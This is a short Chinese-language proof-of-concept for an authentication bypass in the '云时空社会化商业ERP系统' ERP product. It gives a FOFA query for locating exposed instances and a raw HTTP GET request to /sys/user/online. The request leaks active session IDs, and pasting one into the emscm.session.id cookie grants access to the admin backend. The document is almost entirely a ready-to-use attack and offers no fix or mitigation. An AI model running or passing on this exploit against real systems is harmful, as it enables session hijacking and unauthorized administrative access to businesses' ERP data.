 # 云时空社会化商业ERP系统online存在身份认证绕过漏洞

## fofa

```java
app="云时空社会化商业ERP系统"
```

## poc

获取sessionid值，替换emscm.session.id，刷新页面即可登录后台

```java
GET /sys/user/online HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

